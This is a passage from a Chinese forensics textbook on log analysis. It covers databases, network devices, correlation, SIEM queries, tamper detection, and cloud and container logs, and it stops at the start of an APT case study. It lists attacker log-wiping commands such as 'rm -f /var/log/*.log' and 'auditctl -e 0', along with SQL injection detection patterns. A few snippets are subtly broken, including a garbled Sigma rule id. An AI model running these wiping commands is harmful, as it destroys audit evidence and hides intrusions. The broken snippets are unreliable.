数据库是攻击者的最终目标——数据窃取必然经过数据库。数据库审计日志是检测数据泄露和内部威胁的最后一道防线。

#### MySQL 审计日志

```bash
# ========== 启用MySQL通用查询日志（取证期间临时开启） ==========

# 在MySQL中启用通用查询日志（所有SQL语句都会被记录）
SET GLOBAL general_log = 'ON';
SET GLOBAL log_output = 'TABLE';  # 写入mysql.general_log表（更安全）
# 或写入文件：SET GLOBAL log_output = 'FILE';

# 查看当前日志配置
SHOW VARIABLES LIKE 'general_log%';

# ========== 分析MySQL审计日志 ==========

# 查询可疑的大批量SELECT操作（数据窃取特征）
SELECT event_time, user_host, command_type, argument 
FROM mysql.general_log 
WHERE command_type = 'Query' 
  AND argument LIKE '%SELECT%' 
  AND argument LIKE '%FROM%' 
  AND LENGTH(argument) > 200  # 复杂查询通常更长
ORDER BY event_time DESC LIMIT 50;

# 检测SQL注入痕迹（日志中出现的SQL注入语句）
SELECT event_time, user_host, argument 
FROM mysql.general_log 
WHERE argument LIKE '%union%select%' 
   OR argument LIKE '%information_schema%'
   OR argument LIKE '%load_file%'
   OR argument LIKE '%into outfile%'
ORDER BY event_time;

# 检测异常的数据库用户活动
SELECT user_host, COUNT(*) as query_count 
FROM mysql.general_log 
WHERE command_type = 'Query'
GROUP BY user_host 
ORDER BY query_count DESC;

# ========== MySQL慢查询日志分析（检测数据枚举攻击） ==========

# 慢查询日志可能记录攻击者的信息枚举查询
# 在 /var/log/mysql/slow.log 中搜索可疑查询
grep -iE "(information_schema|mysql\.user|mysql\.db)" /var/log/mysql/slow.log
```

#### PostgreSQL 审计日志

```bash
# ========== 启用pgAudit扩展（推荐的审计方案） ==========

# 在postgresql.conf中配置
shared_preload_libraries = 'pgaudit'
pgaudit.log = 'all'  # 记录所有操作
pgaudit.log_catalog = on

# ========== 分析PostgreSQL日志 ==========

# 在日志目录中查找PostgreSQL日志
ls /var/log/postgresql/

# 搜索可疑的DDL操作（攻击者可能修改数据）
grep -iE "(CREATE USER|GRANT|ALTER USER|DROP)" /var/log/postgresql/postgresql-*.log

# 检测数据导出操作（攻击者可能使用COPY导出数据）
grep -iE "(COPY|\\copy|pg_dump)" /var/log/postgresql/postgresql-*.log

# 检测异常的连接来源
grep "connection authorized" /var/log/postgresql/postgresql-*.log \
  | awk '{print $1, $2, $NF}' | sort | uniq -c | sort -rn | head -20
```

#### MSSQL 审计日志

```powershell
# ========== 启用MSSQL审计 ==========

# 创建服务器审计
USE master;
CREATE SERVER AUDIT [ForensicsAudit] 
TO FILE (FILEPATH = N'C:\Audit\');
ALTER SERVER AUDIT [ForensicsAudit] WITH (STATE = ON);

# 创建服务器审计规范（记录所有登录和数据库访问）
CREATE SERVER AUDIT SPECIFICATION [ForensicsSpec]
FOR SERVER AUDIT [ForensicsAudit]
ADD (FAILED_LOGIN_GROUP),
ADD (SUCCESSFUL_LOGIN_GROUP),
ADD (LOGOUT_GROUP),
ADD (DATABASE_ROLE_MEMBER_CHANGE_GROUP),
ADD (SCHEMA_OBJECT_CHANGE_GROUP)
WITH (STATE = ON);

# ========== 分析MSSQL审计日志 ==========

# 使用fn_get_audit_file读取审计文件
SELECT event_time, action_id, succeeded, 
       server_principal_name, database_name, object_name, statement
FROM sys.fn_get_audit_file('C:\Audit\*.sqlaudit', DEFAULT, DEFAULT)
WHERE event_time > DATEADD(day, -7, GETDATE())
ORDER BY event_time DESC;
```

---

### 25.4.7 网络设备与边界日志分析

防火墙、代理服务器、DNS 服务器的日志是重建网络层攻击链的关键证据。

#### 防火墙日志分析

```bash
# ========== iptables/nftables 日志 ==========

# 查看防火墙日志（如果配置了LOG目标）
grep "iptables\|nftables" /var/log/syslog

# 检测被拒绝的连接尝试（侦察扫描特征）
grep "DROP" /var/log/syslog \
  | grep -oP 'SRC=\K[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' \
  | sort | uniq -c | sort -rn | head -20

# ========== pfSense/OPNsense 日志 ==========

# 查看防火墙规则命中日志
grep "block" /var/log/filter.log \
  | awk '{print $3, $11, $16}' | sort | uniq -c | sort -rn | head -20

# 检测异常端口扫描
grep "block" /var/log/filter.log \
  | awk '{print $3}' | cut -d. -f1-4 | sort | uniq -c | sort -rn | head -10

# ========== 商业防火墙（Palo Alto / FortiGate）日志 ==========

# Palo Alto Traffic日志解析
# 搜索可疑IP的所有流量记录
grep "192.168.1.100" /var/log/traffic.log \
  | awk -F',' '{print $1, $7, $8, $10, $14}' \
  | sort | uniq -c | sort -rn | head -20

# FortiGate流量日志分析
grep "192.168.1.100" /var/log/fortigate.log \
  | grep -E "action=accept|action=deny" \
  | awk -F',' '{print $1, $5, $6, $8}' | sort | head -50
```

#### 代理服务器日志分析

```bash
# ========== Squid代理日志分析 ==========

# 检测通过代理的可疑下载
grep "CONNECT" /var/log/squid/access.log \
  | awk '{print $7}' | sort | uniq -c | sort -rn | head -20

# 检测异常数据上传（POST大文件）
awk '$6 ~ /POST/ && $10 > 100000' /var/log/squid/access.log \
  | awk '{print $3, $7, $10}' | sort -t' ' -k3 -rn | head -20

# 检测C2通信特征（长时间连接、固定间隔心跳）
awk '{print $3, $7, $1}' /var/log/squid/access.log \
  | grep "c2\|malware\|bot" \
  | awk '{print $1}' | sort | uniq -c | sort -rn

# ========== Nginx反向代理日志分析 ==========

# 检测WebShell访问特征（固定路径、小响应、固定User-Agent）
awk '{print $1, $7, $10, $12}' /var/log/nginx/access.log \
  | grep -E "\.(php|asp|jsp)$" \
  | awk '{print $1}' | sort | uniq -c | sort -rn | head -20
```

#### DNS 日志分析

```bash
# ========== DNS查询日志分析 ==========

# 检测DGA域名（域名生成算法——C2通信特征）
# DGA域名通常包含大量随机字符
grep "query:" /var/log/dns.log 2>/dev/null || \
  journalctl -u named --since "1 day ago" 2>/dev/null \
  | grep "queries" | awk '{print $NF}' \
  | awk -F'.' '{print $1}' | awk 'length > 15' | sort | uniq -c | sort -rn | head -20

# 检测DNS隧道通信（异常长的DNS查询）
awk '{if(length($NF) > 50) print $0}' /var/log/dns.log

# 检测对可疑域名的查询
grep -iE "\.(top|xyz|tk|ml|ga|cf|buzz|work|click|download)" /var/log/dns.log \
  | awk '{print $1, $NF}' | sort | uniq -c | sort -rn | head -20

# 使用dnstop监控实时DNS查询
dnstop eth0
```

---

### 25.4.8 日志关联分析

日志关联分析是将多个独立数据源的信息进行**时间对齐**、**实体链接**和**模式匹配**，从而还原完整的攻击链路。这是日志取证中最具挑战性也最有价值的环节。

#### 四维关联模型



**1. 时间关联**：将不同时区、不同系统的时间戳统一为 UTC 时间，然后按时间轴排列所有事件。`timeline` 工具（如 Plaso）可以自动完成这一过程。时间关联是其他三个维度的基础——没有准确的时间对齐，IP 关联和用户关联都会失去意义。

**2. IP 关联**：选择一个可疑 IP，查询该 IP 在以下所有系统中的活动记录：

```bash
# 在多类日志中搜索同一IP——建立该IP的完整活动画像
echo "========== IP活动全景查询: 192.168.1.100 ==========" 

# SSH/认证日志
echo "--- SSH/认证日志 ---"
grep "192.168.1.100" /var/log/auth.log | head -20

# Web服务器日志
echo "--- Web访问日志 ---"
grep "192.168.1.100" /var/log/apache2/access.log | head -20

# 防火墙日志
echo "--- 防火墙日志 ---"
grep "192.168.1.100" /var/log/firewall.log 2>/dev/null | head -20

# Auditd日志
echo "--- Auditd日志 ---"
ausearch -i --host 192.168.1.100 2>/dev/null | head -20

# DNS日志
echo "--- DNS查询日志 ---"
grep "192.168.1.100" /var/log/dns.log 2>/dev/null | head -20
```

**3. 用户关联**：在 Active Directory 环境中，通过用户的 SID 绑定其在域内所有机器上的活动：

```powershell
# 在域控上查询用户在所有机器上的登录历史
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624} `
    | Where-Object { $_.Properties[5].Value -eq "kyle.derrick" } `
    | Select-Object TimeCreated, 
        @{N='Computer';E={$_.Properties[11].Value}},
        @{N='LogonType';E={$_.Properties[8].Value}},
        @{N='SourceIP';E={$_.Properties[18].Value}} `
    | Format-Table -AutoSize

# 检查用户账户被篡改的痕迹
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4720,4722,4724,4728,4732,4756} `
    | Where-Object { $_.Properties[0].Value -eq "kyle.derrick" } `
    | Select-Object TimeCreated, Id, Message
```

**4. 事件关联**：使用 Sigma 规则或自定义关联逻辑将看似无关的事件串联成攻击链。例如：Web 服务器收到 SQL 注入请求（Apache日志）→ 攻击 IP 随后对数据库服务器进行登录尝试（auth.log）→ 数据库被查询大量数据（MySQL general_log）→ 数据压缩后通过 FTP 外传（FTP日志）。

#### 基于 ELK Stack 的集中式日志分析

```yaml
# Logstash配置文件示例：采集多源日志并进行归一化
input {
  # 接收Filebeat推送的Windows事件日志
  beats {
    port => 5044
  }
  # 接收syslog推送的Linux日志
  syslog {
    port => 514
    type => "linux-syslog"
  }
  # 接收Nginx/Apache日志
  file {
    path => ["/var/log/nginx/access.log"]
    type => "web-access"
  }
  # 接收审计日志
  file {
    path => ["/var/log/audit/audit.log"]
    type => "audit"
  }
}

filter {
  # 统一时间格式（关键：所有时间戳必须归一化到UTC）
  date {
    match => ["timestamp", "ISO8601", "yyyy-MM-dd HH:mm:ss", "dd/MMM/yyyy:HH:mm:ss Z"]
    timezone => "UTC"
    target => "@timestamp"
  }
  
  # 标准化来源标识（添加来源主机和类型标签）
  mutate {
    add_tag => ["logsource-${host}"]
    add_field => ["source_type", "%{type}"]
  }
  
  # GeoIP解析（将IP转换为地理位置）
  if [client_ip] {
    geoip {
      source => "client_ip"
      target => "geoip"
    }
  }
  
  # 提取Sysmon事件的关键字段
  if [type] == "windows-sysmon" {
    grok {
      match => { "message" => "EventID=(?<event_id>\d+)" }
    }
  }
}

output {
  elasticsearch {
    hosts => ["http://localhost:9200"]
    index => "forensics-logs-%{+YYYY.MM.dd}"
    template_name => "forensics-logs"
  }
}
```

#### Splunk 关联搜索实战

```splunk
# ========== 场景1：暴力破解+成功登录+数据外传的完整攻击链 ==========

# 步骤1：找到暴力破解最严重的IP
index=main sourcetype="WinEventLog:Security" EventCode=4625
  | stats count as FailCount by Account_Name, Source_Network_Address 
  | where FailCount > 50 
  | join type=inner Account_Name, Source_Network_Address [
    search index=main sourcetype="WinEventLog:Security" EventCode=4624
    | stats count as SuccessCount by Account_Name, Source_Network_Address
  ]
  | join type=inner Source_Network_Address [
    search index=main sourcetype="iis:log" sc_status=200 cs_bytes>10000
    | stats count as WebAccessCount by Source_Network_Address
  ]
  | table Account_Name, Source_Network_Address, FailCount, SuccessCount, WebAccessCount

# ========== 场景2：检测内横向移动链 ==========

# 从一台被攻陷的机器出发，追踪其连接的下一台机器
index=main sourcetype="WinEventLog:Security" EventCode=4624 
  Logon_Type=3 Account_Name!="ANONYMOUS LOGON"
  | stats count by Source_Network_Address, Account_Name
  | sort -count

# ========== 场景3：检测数据泄露（大量数据读取+外传） ==========

index=main sourcetype="WinEventLog:Security" EventCode=5140
  | stats sum(Share_Relative_Names) as DataVolume by Account_Name, Source_Network_Address, Share_Name
  | where DataVolume > 1000000
  | sort -DataVolume

# ========== 场景4：检测可疑的WMI/PowerShell组合攻击 ==========

index=main sourcetype="WinEventLog:Security" EventCode=4688 
  (Process_Command_Line="*powershell*" OR Process_Command_Line="*wmic*")
  | join EventCode [
    search index=main sourcetype="WinEventLog:Security" EventCode=5140
  ]
  | table _time, Computer, Account_Name, Process_Command_Line
```

#### 时间线分析工具

| 工具 | 平台 | 特点 | 适用场景 |
|------|-----|------|---------|
| Plaso（log2timeline） | 跨平台 | 自动解析 200+ 种日志格式，生成超级时间线 | 大规模取证调查（企业级） |
| Timesketch | Web（基于Plaso） | Google 开发的协作式时间线分析平台 | 团队取证协作（多人同时分析） |
| Hayabusa csv-timeline | 跨平台 | Windows 事件日志专精 | 企业 Windows 环境快速分析 |
| Chainsaw hunt | 跨平台 | 高性能Sigma规则匹配 | 精确检测特定攻击模式 |
| LogonTracer | 跨平台 | 可视化Windows登录事件 | 分析横向移动和账户滥用 |
| Velociraptor | 跨平台 | 端点监控+日志收集+分析一体 | 实时取证和事件响应 |

```bash
# 使用Plaso生成超级时间线（需Python环境）
# 第一步：解析所有日志文件
log2timeline.py --storage-file /evidence/timeline.plaso /evidence/logs/
# 第二步：按时间排序并输出为CSV
psort.py -o timeline -w /evidence/timeline.csv /evidence/timeline.plaso

# 使用LogonTracer分析Windows登录事件
# 下载：https://github.com/JPCERTCC/LogonTracer
python logontracer.py -o 8080 -f /evidence/security.evtx
# 生成可视化登录关系图，自动检测可疑的横向移动模式
```

> **时间线分析的核心价值**：攻击者的每一步操作都会在日志中留下时间戳。当所有事件按时间排列后，你会发现攻击行为呈现出清晰的"杀伤链"模式——侦察→武器化→投递→利用→安装→指挥控制→目标达成。时间线就是这根链条的骨架。一条完整的时间线可以将零散的日志拼接成无可辩驳的攻击故事，这在向管理层汇报和法庭举证时都具有极高的价值。

---

### 25.4.9 日志篡改检测与对抗

攻击者在完成恶意操作后，通常会尝试清除或篡改日志以掩盖痕迹。取证调查员需要能够识别被篡改的日志。

#### 常见的日志清理手段

| 攻击手段 | 操作方式 | Windows | Linux |
|---------|---------|---------|-------|
| 清除单条日志 | 使用API删除特定事件 | `wevtutil cl Security` | `sed -i '/特定IP/d' auth.log` |
| 清除全部日志 | 删除日志文件 | `wevtutil cl System` | `rm -f /var/log/*.log` |
| 停止日志记录 | 终止日志服务 | `net stop EventLog` | `systemctl stop rsyslog` |
| 修改日志内容 | 编辑日志文件 | 直接修改.evtx（需专用工具） | `sed -i 's/旧内容/新内容/g'` |
| 时间戳混淆 | 修改系统时间 | `w32tm /set /date:...` | `date -s "2024-01-01 00:00:00"` |
| 禁用审计 | 修改审计策略 | `auditpol /clear` | `auditctl -e 0` |
| 批量替换 | 用空白日志替换 | 复制空白.evtx覆盖原文件 | `echo "" > /var/log/auth.log` |
| 选择性删除 | 删除轮转前的旧日志 | 删除 `.evtx` 归档文件 | `rm /var/log/auth.log.1` |

#### 检测日志篡改的技术

**1. 检查日志连续性（时间断层检测）**

日志文件中的时间戳应该是连续的。如果发现时间戳出现明显断层（如 2024-01-01 14:00:00 之后直接跳到了 14:30:00），中间的部分很可能被删除了。

```bash
# 检测auth.log中的时间断层（超过5分钟的间隔）
awk '{print $1, $2, $3}' /var/log/auth.log \
  | tail -n +2 | awk 'NR>1{print $0, systime()-prev}{prev=systime()}' \
  | awk '$4>300{print "时间断层超过5分钟: "$0}'

# 更精确的时间断层检测（解析日志时间戳）
#!/bin/bash
prev_time=""
while IFS= read -r line; do
  log_time=$(echo "$line" | grep -oP '\w+ \d+ \d+:\d+:\d+')
  if [ -n "$prev_time" ] && [ -n "$log_time" ]; then
    prev_epoch=$(date -d "$prev_time" +%s 2>/dev/null)
    curr_epoch=$(date -d "$log_time" +%s 2>/dev/null)
    if [ -n "$prev_epoch" ] && [ -n "$curr_epoch" ]; then
      diff=$((curr_epoch - prev_epoch))
      if [ "$diff" -gt 300 ]; then
        echo "[ALERT] 日志断层: $prev_time -> $log_time (间隔${diff}秒)"
      fi
    fi
  fi
  prev_time="$log_time"
done < /var/log/auth.log
```

**2. 检查文件元数据**

删除后重建的日志文件会有与原始文件不同的 inode 号、创建时间和修改时间。

```bash
# Linux：检查日志文件的inode和创建时间
stat /var/log/auth.log
# 注意：如果inode变化或Birth时间在攻击时间附近，日志可能被替换过

# 比较当前日志文件与备份的inode
ls -i /var/log/auth.log         # 当前inode
stat /var/log/auth.log          # 详细元数据

# 使用find查找最近被修改的日志文件（攻击者操作的时间窗口内）
find /var/log/ -name "*.log" -newermt "2024-01-01 10:00:00" ! -newermt "2024-01-01 12:00:00" -ls

# 检查日志文件大小变化（通过inode中的大小信息）
for f in /var/log/auth.log*; do
  echo "$(stat -c '%n %s %Y' "$f")"
done | sort -k3
```

**3. 检查事件 ID 1102（Windows 日志清除）**

Security 日志中事件 ID 1102 表示安全日志被清除，这是攻击者清理痕迹的最直接证据。如果事件 ID 4624（成功登录）和 1102 同时出现，高度可疑。

```powershell
# 查找所有日志清除事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=1102,1100} `
    | Format-Table TimeCreated, Id, 
        @{N='SubjectUser';E={$_.Properties[1].Value}},
        @{N='SubjectDomain';E={$_.Properties[2].Value}} -AutoSize

# 查找所有被清空的日志类型
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=1102} `
    | Select-Object TimeCreated, 
        @{N='ClearedBy';E={$_.Properties[1].Value + '\' + $_.Properties[2].Value}} `
    | Format-Table -AutoSize
```

**4. 检查 PowerShell 历史**

攻击者使用 `wevtutil` 或 `Remove-EventLog` 清日志的命令会留下痕迹（如果 PowerShell 脚本块日志记录已启用）。

```powershell
# 查找PowerShell中的日志清理操作
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} `
    | Where-Object { $_.Message -match "wevtutil|Clear-EventLog|Remove-EventLog|EventLog" } `
    | Select-Object TimeCreated, 
        @{N='ScriptBlock';E={$_.Properties[2].Value}} `
    | Format-Table -Wrap
```

**5. 检查日志文件大小突变**

日志文件大小在短时间内骤降是日志被清理的强烈信号。可以通过 SIEM 日志文件大小监控来发现。在 ELK 中可以使用 Watcher 或 Alerting 监控日志量异常：

```splunk
# Splunk：检测日志量突降
index=_internal sourcetype=statsd component=Metrics 
  | timechart span=1h avg(value) by sourcetype
  # 如果某个sourcetype的日志量突然下降到接近0，可能是日志服务被停止或日志被清除
```

**6. 恢复被删除的日志内容**

即使日志文件被删除或修改，在文件系统层面可能仍然可以恢复：

```bash
 # NTFS环境：使用 $MFT 恢复被删除的.evtx文件
 # 在磁盘镜像上使用 tools like Autopsy 或 FTK Explorer
 # 注意：SSD上的TRIM操作可能使文件恢复失败

 # Linux ext4环境：使用 extundelete 恢复被删除的日志
 # 首先卸载文件系统（或使用只读挂载的镜像）
 extundelete /dev/sda2 --restore-directory /var/log/

 # 检查文件系统日志（ext4 journal）
 # journal中可能包含最近的文件操作记录
 debugfs -R "ls -l /var/log/" /dev/sda2
```

---

### 25.4.10 云环境日志取证

随着企业上云，AWS、Azure、GCP 的日志取证能力变得不可或缺。

#### AWS CloudTrail 分析

```bash
# 使用AWS CLI查询特定用户的API调用
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=Username,AttributeValue=hacker \
  --start-time 2024-01-01T00:00:00Z \
  --end-time 2024-01-02T00:00:00Z \
  --output json | jq '.Events[] | {EventTime, EventName, SourceIPAddress, Resources}'

# 查询特定资源的所有修改事件
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=ResourceName,AttributeValue=i-0123456789abcdef0 \
  --output json | jq '.Events[] | {EventTime, EventName, Username, SourceIPAddress}'

# 查询可疑的IAM操作（创建用户、密钥、角色）
aws cloudtrail lookup-events \
  --start-time 2024-01-01T00:00:00Z \
  --end-time 2024-01-02T00:00:00Z \
  --output json | jq '.Events[] | select(.EventName | test("CreateUser|CreateAccessKey|CreateRole|AttachUserPolicy|PutUserPolicy"))'
```

**CloudTrail 关键事件：**

| 事件名称 | 含义 | 取证价值 | MITRE ATT&CK |
|---------|------|---------|-------------|
| ConsoleLogin | AWS控制台登录 | 检测异常地理位置登录 | T1078 - 有效账户 |
| CreateUser | 创建IAM用户 | 检测后门账户 | T1136 - 创建账户 |
| CreateAccessKey | 创建访问密钥 | 检测凭证创建 | T1098 - 账户操纵 |
| AttachUserPolicy | 绑定用户策略 | 检测权限提升 | T1098.003 - 云角色修改 |
| ModifyInstanceAttribute | 修改EC2属性 | 检测安全组规则篡改 | T1562.007 - 禁用云防火墙 |
| DeleteTrail | 删除CloudTrail | 攻击者试图清除审计痕迹 | T1070.002 - 清除云日志 |
| StopLogging | 停止CloudTrail记录 | 攻击者停止审计记录 | T1070.002 - 清除云日志 |
| CreateSnapshot | 创建EC2快照 | 可能的磁盘数据窃取 | T1530 - 云存储数据收集 |

```bash
# AWS GuardDuty异常检测日志查询
aws guardduty list-findings --region us-east-1 \
  --finding-criteria '{"Criterion":{"severity":{"Gte":7}}}' \
  --max-items 20 | jq '.FindingIds[]'

# AWS VPC Flow Logs分析（网络层取证）
aws logs filter-log-events \
  --log-group-name "vpc-flow-logs" \
  --filter-pattern "[version, account, eni, srcAddr, dstAddr, srcPort, dstPort, protocol, packets, bytes, start, end, action, log-status] [?, ?, ?, \"192.168.1.100\", ?, ?, ?, ?, ?, ?, ?, ?, ?]" \
  --start-time 1704067200000 \
  --output json | jq '.events[].message'
```

#### Azure Activity Log 分析

```powershell
# 使用Azure CLI查询活动日志
az monitor activity-log list \
  --start-time 2024-01-01 \
  --end-time 2024-01-02 \
  --select "eventName,operationName,caller,resourceGroup,resourceProvider" \
  --output table

# 检测可疑的权限操作
az monitor activity-log list \
  --start-time 2024-01-01 \
  --query "[?contains(operationName.value, 'role') || contains(operationName.value, 'policy')]" \
  --output table

# Azure AD（Entra ID）登录日志查询
az ad sign-in list --filter "createdDateTime ge 2024-01-01 and createdDateTime le 2024-01-02" \
  --output table
```

**Azure 关键审计事件：**

| 操作名称 | 含义 | 取证价值 |
|---------|------|---------|
| Create or Update Virtual Machine | 创建/修改虚拟机 | 检测资源滥用 |
| Add Role Assignment | 添加角色分配 | 检测权限提升 |
| Create or Update Secret Key | 创建密钥 | 检测凭证窃取 |
| Delete Storage Account | 删除存储账户 | 检测破坏行为 |
| Create or Update SQL Database | 修改数据库 | 检测数据篡改 |
| Export Boot Diagnostics | 导出诊断数据 | 检测信息泄露 |

#### GCP Audit Log 分析

```bash
# 使用gcloud查询审计日志
gcloud logging read 'resource.type="gce_instance" AND protoPayload.authenticationInfo.principalEmail="attacker@example.com"' \
  --format=json --limit=50

# 检测IAM权限变更
gcloud logging read 'protoPayload.methodName="SetIamPolicy" OR protoPayload.methodName="google.iam.v1.IAM.SetIamPolicy"' \
  --format=json --limit=50

# 查询Compute Engine的操作日志
gcloud logging read 'resource.type="gce_instance" AND protoPayload.methodName="compute.instances.insert"' \
  --start-time=2024-01-01T00:00:00Z --format=json
```

---

### 25.4.11 容器与微服务环境日志分析

容器化环境的日志取证与传统服务器有本质区别——容器是短暂的、不可变的，日志可能随容器销毁而消失。

#### Docker 环境日志

```bash
# ========== 容器日志采集 ==========

# 查看已停止容器的日志（容器销毁后仍可查）
docker logs --since="2024-01-01T00:00:00" --until="2024-01-01T23:59:59" <container_id>

# 查看Docker守护进程日志
journalctl -u docker.service --since "2024-01-01" --no-pager

# 导出容器文件系统做取证分析（容器运行时的快照）
docker export <container_id> > /evidence/container_export.tar

# 分析容器的修改层（检测文件篡改）
docker diff <container_id>
# A = Added, C = Changed, D = Deleted

# 检测异常容器创建（攻击者可能创建新的容器来隐藏活动）
docker events --since="2024-01-01" --until="2024-01-02" \
  --filter 'type=container' --filter 'event=create' \
  --format '{{.Time}} {{.Actor.Attributes.name}} {{.Actor.Attributes.image}}'
```

#### Kubernetes 环境日志

```bash
# ========== K8s审计日志分析 ==========

# 查看API Server审计日志（记录所有kubectl操作）
cat /var/log/kubernetes/audit/audit.log | jq 'select(.verb == "create" or .verb == "delete")'

# 检测Pod创建事件（攻击者可能创建恶意Pod）
kubectl get events --all-namespaces --field-selector reason=Created \
  --sort-by='.lastTimestamp' -o json | jq '.items[] | {time: .lastTimestamp, pod: .involvedObject.name, ns: .metadata.namespace}'

# 查看容器日志（即使Pod已被删除，仍有短暂保留期）
kubectl logs --previous <pod_name> -n <namespace>

# 检测异常的RBAC绑定变更
kubectl get rolebindings,clusterrolebindings --all-namespaces -o json \
  | jq '.items[] | select(.roleRef.name == "cluster-admin" or .roleRef.name == "admin")' 

# 使用Falco检测容器运行时异常
# Falco规则示例：检测容器内执行shell
falco -r /etc/falco_rules.d/custom_rules.yaml \
  --predicate 'container and proc.name in (bash,sh,python,perl)' \
  --output '{%evt.output}'
```

> **容器取证要点**：容器日志的生命周期比传统服务器短得多。在事件响应时，必须第一时间使用 `docker export` 或 `crictl export` 导出容器文件系统，否则容器被编排器重启后，攻击者的操作痕迹将永久消失。对于 Kubernetes 环境，API Server 审计日志是最关键的证据源——它记录了所有对集群的管理操作。

---

### 25.4.12 日志归一化与解析技术

面对来自数十种不同系统和格式的日志，归一化（Normalization）是高效分析的前提。归一化的本质是将异构的日志转换为统一的字段模型。

#### Syslog 常用解析工具

```bash
# ========== Syslog解析基础 ==========

# 使用rsyslog模板自定义日志格式
# /etc/rsyslog.d/forensics.conf
template(name="ForensicsFormat" type="string"
  string="%TIMESTAMP:::date-rfc3339% %HOSTNAME% %syslogtag% %msg%\n")

# 使用jq解析JSON格式的结构化日志
cat /var/log/app.log | jq '.[] | {timestamp: .ts, level: .level, message: .msg, src_ip: .remote_addr}'

# 使用logstash的grok解析非结构化日志
# 常用Grok模式：
# %{IP:client_ip}
# %{TIMESTAMP_ISO8601:timestamp}
# %{GREEDYDATA:raw_message}

# 使用Python批量解析日志文件
python3 -c "
import re, json, sys
pattern = r'(?P<ip>\d+\.\d+\.\d+\.\d+) - - \[(?P<time>[^\]]+)\] \"(?P<method>\w+) (?P<url>\S+) \S+\" (?P<status>\d+) (?P<size>\d+)'
for line in sys.stdin:
    m = re.search(pattern, line)
    if m:
        print(json.dumps(m.groupdict()))
" < /var/log/apache2/access.log | jq '.ip' | sort | uniq -c | sort -rn | head
```

#### 常用归一化字段模型

| 归一化字段 | 说明 | 对应原始字段（示例） |
|-----------|------|-------------------|
| timestamp | 统一UTC时间戳 | Windows: TimeCreated; Linux: syslog timestamp; Web: [01/Jan/2024:13:55:36] |
| source_ip | 源IP地址 | Windows: Source_Network_Address; Linux: src=; Web: $1 |
| user_name | 用户名 | Windows: Account_Name; Linux: user=; Web: (通常无) |
| event_type | 事件类型 | Windows: EventID; Linux: program; Web: HTTP method |
| action | 动作 | Windows: 登录成功/失败; Linux: ACCEPT/DROP; Web: GET/POST |
| resource | 资源 | Windows: Object_Name; Linux: file=; Web: URL |
| dest_ip | 目标IP | Windows: N/A; Linux: dst=; Web: Server IP |
| severity | 严重级别 | Windows: Level; Linux: priority; Web: status code |

---

### 25.4.13 日志分析中的自动化与智能检测

#### 基于规则的自动检测（Sigma 规则）

Sigma 是日志检测规则的通用标准，可转换为 Splunk、ELK、QRadar 等平台的原生查询语法。

```yaml
# Sigma规则示例：检测Windows暴力破解
title: Brute Force Authentication Attempts
id: a]580567-570b-4271-944d-421964d16549
status: experimental
description: 检测同一来源IP的多次失败登录尝试
logsource:
    category: authentication
    product: windows
detection:
    selection:
        EventID: 4625
    timeframe: 5m
    condition: selection | count(src_ip) by src_ip > 20
level: high
tags:
    - attack.credential_access
    - attack.t1110
```

```bash
# 使用Sigma CLI转换规则并运行检测
# 下载Sigma规则仓库
git clone https://github.com/SigmaHQ/sigma.git /opt/sigma

# 将Sigma规则转换为Splunk查询
sigmac -t splunk -c sysmon /opt/sigma/rules/windows/builtin/brute_force.yml

# 将Sigma规则转换为Elasticsearch查询
sigmac -t es-qs -c sysmon /opt/sigma/rules/windows/builtin/brute_force.yml

# 使用Hayabusa批量运行Sigma规则检测Windows日志
hayabusa.exe csv-timeline -d C:\Windows\System32\winevt\Logs\ \
  -r C:\sigma\rules\windows\ -o detections.csv
```

#### 基于统计的异常检测

```python
#!/usr/bin/env python3
"""
基于统计的日志异常检测示例
检测登录失败次数异常偏高的IP地址
"""
import re
from collections import defaultdict
from datetime import datetime, timedelta

def detect_brute_force(log_path, threshold=50, window_minutes=5):
    """检测时间窗口内的暴力破解行为"""
    ip_events = defaultdict(list)
    
    with open(log_path) as f:
        for line in f:
            match = re.search(
                r'(?P<time>\w+ \d+ \d+:\d+:\d+).*Failed password for .* from (?P<ip>\d+\.\d+\.\d+\.\d+)',
                line
            )
            if match:
                ts = datetime.strptime(match.group('time'), '%b %d %H:%M:%S')
                ip_events[match.group('ip')].append(ts)
    
    results = []
    for ip, timestamps in ip_events.items():
        timestamps.sort()
        # 滑动窗口检测
        for i, t in enumerate(timestamps):
            window_end = t + timedelta(minutes=window_minutes)
            count = sum(1 for ts in timestamps[i:] if ts <= window_end)
            if count >= threshold:
                results.append({
                    'ip': ip,
                    'start': t.strftime('%Y-%m-%d %H:%M:%S'),
                    'count': count,
                    'window': f'{window_minutes}分钟'
                })
                break
    
    return results

if __name__ == '__main__':
    results = detect_brute_force('/var/log/auth.log')
    for r in results:
        print(f"[ALERT] IP {r['ip']}: {r['count']}次失败登录 within {r['window']} (开始: {r['start']})")
```

#### 基于机器学习的异常检测

```python
#!/usr/bin/env python3
"""
基于Isolation Forest的日志异常检测
检测登录行为中的异常模式
"""
from sklearn.ensemble import IsolationForest
import numpy as np

# 特征提取示例
features = [
    # [失败登录次数, 成功登录次数, 独立IP数, 登录时间小时, 活跃天数]
    [2, 1, 1, 3, 1],    # 正常用户：少量失败，少量成功
    [150, 1, 1, 3, 1],   # 异常：大量失败，1个成功（暴力破解）
    [0, 5, 2, 10, 30],   # 正常：无失败，少量成功，多天活跃
    [80, 0, 1, 2, 1],    # 异常：大量失败，0成功，凌晨
]

# 训练Isolation Forest模型
clf = IsolationForest(contamination=0.2, random_state=42)
clf.fit(features)

# 预测异常
predictions = clf.predict(features)
for i, pred in enumerate(predictions):
    status = "异常" if pred == -1 else "正常"
    print(f"样本{i+1}: {status} (特征: {features[i]})")
```

---

### 25.4.14 实战案例：从日志还原 APT 攻击全过程

#### 场景描述

某企业安全团队发现内部服务器存在异常外连，接到告警后立即启动应急响应。安全分析师通过以下日志分析步骤，完整还原了攻击者的活动轨迹。

#### 初始访问阶段（T1190 - 利用面向公网的应用）

```text
10:32:15   Apache日志: 192.168.1.100 POST /wp-admin/admin-ajax.php?action=wp_easycart
10:32:16   Apache日志: 192.168.1.100 POST /wp-content/plugins/easycart/upload.php
